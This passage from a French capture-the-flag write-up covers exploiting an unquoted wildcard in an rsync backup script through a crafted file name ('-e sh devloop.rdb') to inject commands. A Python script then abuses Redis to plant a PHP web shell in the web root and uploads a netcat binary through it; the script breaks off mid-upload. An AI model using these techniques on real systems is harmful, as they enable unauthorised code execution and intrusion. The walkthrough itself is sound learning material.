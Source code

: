 Le flag ne nous est malheureusement pas accessible :'(  

On trouve en revanche un script */backup/backup.sh* plus intéressant car exploitable via l'utilisation d'astérisque non protégés :  

```bash
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```

[Ce document](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt) indique comment on peut exploiter la première commande rsync en créant deux fichiers.  

Le premier sera nommé *-e sh devloop.rdb* et sera vide, ce sera lui qui s'injectera dans la commande rsync.  

le second devra être nommé *devloop.rdb* et contiendra la commande que l'on souhaite faire exécuter.  

J'ai préféré automatiser toute cette partie de l'exploitation car ça commence à faire beaucoup de commandes et donc beaucoup de temps à passer...  

Voici l'une des premières versions du script :  

```python
import socket
import re
from urllib.parse import quote
from base64 import b64encode
import requests

md5_regex = re.compile(r"[a-f0-9]{32}")

sock = socket.socket()
sock.connect(('127.0.0.1', 6379))
sock.send(b'config set dir /var/www/html\r\n')
print(sock.recv(1024))
sock.send(b'config set dbfilename .devloop.php\r\n')
print(sock.recv(1024))
sock.send(b'set payload "<?php system($_GET[\'cmd\']); /*"\r\n')
print(sock.recv(1024))
sock.send(b'save\r\n')
print(sock.recv(1024))
sock.close()

sess = requests.session()
response = sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("md5sum /tmp/devloop_nc"))
if response.status_code == 404:
    print("Redis exploitation failed!")
    exit()

search = md5_regex.search(response.text)

if not search or search.group() != "43248ae1630f1e244fcec241ea5ad780":
    response = sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote("rm /tmp/devloop_nc*"))
    with open("nc.traditional", "rb") as fd:
        buff = b64encode(fd.read())
        i = 0
        print("Uploading...")
        while True:
            data = buff[i:i+1024].decode()
            i += 1024
            cmd = "echo -n '{}' >> /tmp/devloop_nc.b64".format(data)
            response = sess.get("http://127.0.0.1/.devloop.php?cmd=" + quote(cmd))
            if response.status_code != 200:
```